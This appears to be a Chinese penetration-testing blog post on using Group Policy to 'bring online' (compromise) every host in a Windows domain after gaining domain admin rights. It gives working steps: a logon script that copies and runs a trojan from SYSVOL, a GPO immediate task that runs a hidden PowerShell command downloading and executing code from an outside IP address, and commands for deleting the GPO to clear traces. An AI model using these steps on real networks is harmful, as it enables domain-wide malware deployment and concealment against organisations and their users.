





0x01 前言
当我们拿下域控或者域管的权限，如何使用组策略批量上线。
0x02 利用前提
拥有更改某组策略的权限或者域管权限
0x03 利用思路
1、利用OU+启动脚本
2、利用计划任务
这里引用三好学生师傅的原话
根据不同情况，有以下两种利用思路：
1、新建组策略，创建计划任务实现远程执行
创建一个新的GPO并链接到对应的域备份GPO修改Backup.xml和gpreport.xml创建ScheduledTasks.xml还原GPO 强制客户端刷新策略清理操作痕迹第二步到第五步可以通过脚本直接实现2、修改已有组策略，替换计划任务
如果域控制器上已有策略并配置了计划任务不再需要注册，修改ScheduledTasks.xml就好
0x04 利用方法
登录启动上线
打开组策略管理(gpmc.msc),右键组策略对象——新建

然后以此执行右键test—编辑—用户配置—策略—windows设置—脚本—登录—显示文件—新建ADControl.bat

若是想要上马则利用IPC共享实现即可，将以下命令复制到bat脚本中，代码如下
在域内域控主机的sysvol目录时默认共享的，可以将马儿放到这个目录\\域控的ip或者主机名\sysvol\adlab.com\scripts\
copy \\10.10.10.100\sysvol\adlab.com\scripts\mm.exe C:\Users\
cmd /c c:\Users\mm.exe
然后添加——浏览——选择ADControl.bat

或者直接在输入在脚本名称里输入马子的绝对路径
\\10.10.10.100\sysvol\adlab.com\scripts\mm.exe
也可以在默认域策略中输入直接添加启动，这样就不要新建GPO。
刷新组策略
gpupdate /force
当域用户重新登录或者重新启动的时候，发现直接以当前用户权限加载了我们的程序
计划任务上线
利用计划任务来实现
创建GPO
new-gpo -name TestGPO1

链接GPO
New-GPLink -Name TestGPO1 -Target 'dc=adlab,dc=com'
修改GPO并添加即时任务
即时任务会在组策略同步的时候强制执行一次，组策略每90分钟自动同步一次。使用三好学生的脚本
https://github.com/3gstudent/Homework-of-Powershell/blob/master/New-GPOImmediateTask.ps1
#允许执行脚本
powershell set-ExecutionPolicy RemoteSigned
#导入脚本
Import-Module .\New-GPOImmediateTask.ps1
#执行命令
New-GPOImmediateTask -TaskName Debugging -GPODisplayName TestGPO1 -SysPath '\\dc1.adlab.com\sysvol\adlab.com' -Command 'powershell.exe' -CommandArguments '-nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(''http://192.168.2.45:801/a''))"'

强制同步策略之后当用户在登录状态会执行该任务，当用户未登录时，则会在登录后执行该命令
gpupdate /force
主机成功上线

在测试过程中发现win7主机不上线，不知道啥情况。
清理痕迹
Remove-GPO -Name TestGPO1
其他命令
加载GroupPolicy模块：
Import-Module GroupPolicy –verbose
获得所有GPO的内容：
Get-GPO -All
将所有GPO导出为一个HTML报告：
Get-GPOReport -All -ReportType html -Path C:\GposReport\GposReport.html
将每个GPO单独导出一个HTML报告：
Get-GPO -All | %{ Get-GPOReport -name $_.displayname -ReportType html -path ("c:\GPOReports\"+$_.displayname+".html") }
查看指定GPO的权限设置：
Get-GPPermission -Name "TestGPO1" -All
链接GPO到指定OU
powershell -c New-GPLink -Name TestGPO1 -Target ‘OU=OUTest1,dc=test,dc=com’
备份指定GPO：
Backup-Gpo -Name TestGPO1 -Path C:\GpoBackups
备份所有GPO：
Backup-Gpo -All -Path "c:\GpoBackups"
还原指定GPO：
Restore-GPO -Name TestGPO1 -Path C:\GpoBackups
还原所有GPO：
Restore-GPO -All -Path "c:\GpoBackups"
创建OU:
New-ADOrganizationalUnit -Name OUTest1 -Path "dc=test,dc=com"
查看当前域中的所有计算机:
dsquery computer获得结果”CN=Computer1,CN=Computers,DC=test,DC=com”
将该计算机加到OU=OUTest1中:
dsmove "CN=Computer1,CN=Computers,DC=test,DC=com" -newparent OU=OUTest1,dc=test,dc=com
查询OU=OUTest1中的计算机:
dsquery computer OU=OUTest1,dc=test,dc=com
创建GPO并连接:
new-gpo -name TestGPO | new-gplink -Target "OU=OUTest1,dc=test,dc=com"
还原： 将计算机Computer1从OU=OUTest1中移除
dsmove "CN=Computer1,OU=OUTest1,DC=test,DC=com" -newparent CN=Computers,dc=test,dc=com
删除OU=OUTest1：
set-ADOrganizationalUnit -Identity "OU=OUTest1,dc=test,dc=com" -ProtectedFromAccidentalDeletion $false
Remove-ADOrganizationalUnit -Identity "OU=OUTest1,dc=test,dc=com" -Recursive -Confirm:$False
查看对组策略对修改权限
0x05 参考地址
https://mp.weixin.qq.com/s/IUSC7RjO0BsF3L-kyb6mjA
https://x1m0.xyz/%e5%88%a9%e7%94%a8%e7%bb%84%e7%ad%96%e7%95%a5%e4%b8%8a%e7%ba%bf%e4%b8%bb%e6%9c%ba/
https://mp.weixin.qq.com/s/XhbsSyDDV774LJ4o2QkSBw
https://xz.aliyun.com/t/9511
https://mp.weixin.qq.com/s/n42GVB51WUafbxOGaqc_EA